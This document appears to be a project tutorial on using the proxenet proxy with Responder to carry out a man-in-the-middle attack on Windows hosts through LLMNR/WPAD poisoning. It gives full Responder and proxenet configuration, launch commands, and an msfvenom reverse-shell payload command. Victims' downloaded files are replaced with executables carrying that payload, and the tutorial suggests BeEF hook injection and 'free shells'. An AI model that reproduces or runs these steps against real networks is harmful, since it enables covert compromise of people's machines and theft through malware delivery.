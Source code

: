 # Proxenet-In-The-Middle attack #

`proxenet` can also be used to deliver automated payloads via a
Man-in-the-Middle attack. This can be done with the help of the awesome tool
[Responder](https://github.com/SpiderLabs/Responder) in two easy steps.


## Network setup ##

We will the Windows hosts on the network `192.168.56.0/24`. Our evil box will be
at `192.168.56.1`.

Let's do this.


## Responder setup ##

We will use `Responder` to spoof NetBIOS packets and poison local network
Windows workstation WPAD configuration to our evil box. The configuration is
pretty easy since we don't need any feature from `Responder` except the
poisoning.

**_Note_**: I used _jrmdev_ version of `Responder` because it is way cleaner
that the master version from SpiderLabs, and has better support for WPAD and
proxy forwarding. You can clone it from GitHub:

```
$ git clone https://github.com/jrmdev/Responder.git
$ cd Responder && git checkout -b remotes/origin/responder-refactoring
```

We only want to use the LLMNR and WPAD functionalities, so we will disable all
the rest. Simply set it up with the following configuration:
```
[Responder Core]
SQL = Off
SMB = Off
Kerberos = Off
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = On
HTTPS = Off
DNS = Off
LDAP = Off
Challenge = 1122334455667788
Database = Responder.db
SessionLog = Responder-Session.log
PoisonersLog = Poisoners-Session.log
AnalyzeLog = Analyzer-Session.log
RespondTo =
RespondToName = WPAD
DontRespondTo =
DontRespondToName =

[HTTP Server]
Serve-Always = Off
Serve-Exe = Off
Serve-Html = Off
HtmlFilename = files/AccessDenied.html
ExeFilename = files/BindShell.exe
ExeDownloadName = ProxyClient.exe
WPADScript = function FindProxyForURL(url, host){ return 'PROXY 192.168.56.1:8008';} ; change this address to your situation
HTMLToInject = <h1>pwn</h1>

[HTTPS Server]
SSLCert = certs/responder.crt
SSLKey = certs/responder.key
```

And just run it to forward to our `proxenet` (which will be listening on
`192.168.56.1:8008` - see next part).
```
sudo python2 Responder.py -v -I vboxnet0 -w
```

`Responder` will now poison all the requests to our `proxenet` process.

![nbt-poison](img/nbt-poison.png)


## proxenet setup ##

Create or edit the `proxenet` plugin configuration file, `$HOME/.proxenet.ini`
with the following sections.
```
[oPhishPoison]
; This should point to the payload to be inserted as the HTTP response.
; For example:
; msfvenom -p windows/reverse_tcp_shell -f raw -b '\x0d\x0a\x00\xff' -o mypayload LHOST=192.168.56.1 LPORT=4444
msfpayload   = %(home)s/tmp/my_payload

; Point to Python binary
python       = /usr/bin/python2.7

; Download https://gist.github.com/hugsy/18aa43255fd4d905a379#file-xor-payload-py
; and copy its path to this configuration script.
xor_payload  = %(home)s/code/xor-payload/xor-payload.py

; This should point to the HTML page to inject every time a user fetches
; any HTML page
html_inject_stub = %(home)s/tmp/injected_page.html
```
The `html_inject_stub` option can be used also to easily inject your BeEF hooks
too.

The plugin `oPhishPoison.py` (available in the `proxenet-plugins` GitHub
repository) will deal with the substitution of the traffic the way you want.
You can insert any Metasploit Framework payload or an HTA page. The choice is
yours!

Add the plugin `oPhishPoison.py` to the autoload directory of `proxenet` and
start it.
```
$ ln -sf proxenet-plugins/oPhishPoison.py proxenet-plugins/autoload/oPhishPoison.py
$ ./proxenet -b 192.168.56.1 -p 8008 -i -N
```

Adding the `-N` option disables the SSL interception and make it stealthier. The
`-i` option forces `proxenet` to use the Internet Explorer compatibility mode.

From the moment `proxenet` and `Responder` are working together, you will
automatically send fake results to your victims. By default, the `oPhishPoison`
plugin will replace known binary content types (such as Office documents, ZIP
files, RAR archives, etc.) with PE executables containing your payloads.

When `Responder` poisons the LLMNR request for WPAD, it will indicate to the
victim to fetch the PAC configuration from itself.
![responder-wpad](img/responder-wpad.png)

After that, **every** HTTP request from this victim will go through `proxenet`.
You will very soon see this kind of message appearing on your screen:
![proxenet-poison](img/proxenet-poison.png)

This indicates that the attack was successful. From now, just wait for the
shells ☺

## What's next?

Literally, nothing! The MitM will operate in a totally transparent way, that's
the beauty of it.

   1. The Windows hosts of the victims will get poisoned by `Responder` to point
   the WPAD NetBios name to our hosts.
   2. Whenever, the victim will use their web browser setup in
   "Auto-configuration".
   3. Every HTTP request will go through `proxenet` and the response will be
   poisoned with whatever content you setup.
   4. Enjoy the free shells !


## Live demo

Click [here](https://vid.me/ntWe) for a live demo.
